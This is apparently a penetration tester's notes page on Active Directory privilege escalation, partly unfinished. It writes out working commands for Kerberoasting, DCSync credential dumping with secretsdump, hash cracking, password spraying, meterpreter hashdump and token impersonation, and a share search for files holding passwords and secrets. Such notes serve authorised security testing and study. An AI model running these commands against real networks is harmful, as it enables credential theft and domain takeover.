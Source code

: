 # Active Directory Privilege Escalation
For exploitation see [[AD-Exploitation-Hub]] or general theory and definitions [[Active-Directory-Defined]]. For commands cheatsheet [[Active-Directory-Commands]] or for enumeration see [[Active-Directory-Enumeration]]

## Introduction

## Scripts
[ADAPE]

## Tools

#### SMB enumeration tools

See [SMB tool](SMB-Recon-Cheatsheet.md)

#### Bloodhound and Sharphound

[Sharphound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) is the collector that gathers all the information abnout the 
network and compresses it into a zip file. You can then import this data and view a map of the AD domain. This very import to see weak points
like DCsyncs, Usernames, Trust 


#### Crackmapexec


#### Empire and Starkiller


Rubeus, Seatbelt, Mimikatz...

#### Hashcat/JtR
`hashcat -m 13100 -a 0 hash.txt rockyou.txt`

#### Impacket

Kerberoasting 
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip $IP $DOMAIN.local/$USER:$PASSWORD -request
```
Exploit DCSync Privileges
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip $IP $DOMAIN/$USER@$IP
```

#### Kerbrute

You want to target the subnet and then as you laterally move through the network the Adminstrators and DCs.
`crackmapexec smb $IP -u users.txt -p passes.txt`

#### Metasploit and Proxychains

Metasploit combined with proxychains can used to pivot and access segmented sections of network.
The shells create route through then inaccessable parts of the network can be mapped beyond the shell's address.
To proxy through the network see sections on [proxychains in proxies]() and [metasploit autoroute and socks5 server](). 

Due to Trusts, pivoting in required to hop to the connection between Domains. 
Trust can be: 
1. Directional - The direction of the trusts flows from a trusting domain to a trusted domain.
1. Transitive - The trust relationship expands beyond just two domains to include other trusted domains.

If inclined meterpreter and its commands:
```meterpreter

migrate 	# Don't forget to migrate to better processes as processes die: lsass.exe
hashdump

use incognito
list_token -u
impersonate_token $ TOKEN

```

#### Powerview
PowerView "is a powershell tool to gain network situational awareness one Windows domains."
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Due to AD commands are a restricted to DCs and some(times) Adminstrators. 
Get PowerView on the box, you need some help.
```
. .\PowerView.ps1				# import PowerView
Import Module PowerView.ps1			
Get-NetDomain					# Like ADDomain but lists less information
Get-NetDomainController				# List all Domain Controller
Get-NetForest					# like AdForest
Get-NetDomainTrust				# like NetDomainTrust

Find-InterestingDomainShareFile
-CheckAccess
*password*
*sensitive*
*admin*
*login*
*secret*
*unattend*.xml
*vmdk
*creds*
*credential*
*.config
```


## General Enumeration

```powershell
ipconfig /displaydns	# Get DC ip
Get-ADForest | Select-Object Domains								# Lists all Domains in Forest
Get-ADTrust -Filter * | Select-Object Direction,Source,Target					# List trust information
dsquery group -name "Domain Admins" | dsget group -expand -members				# Query for all DCs
Get-ADDomain | Select-Object NetBIOSName, DNSRoot, InfrastructureMaster				# List all DCs
Get-ADUser -Filter * -Properties Description | Where-Object { $_.Description.length -gt 8 } 	# Searching AD replace *!
```






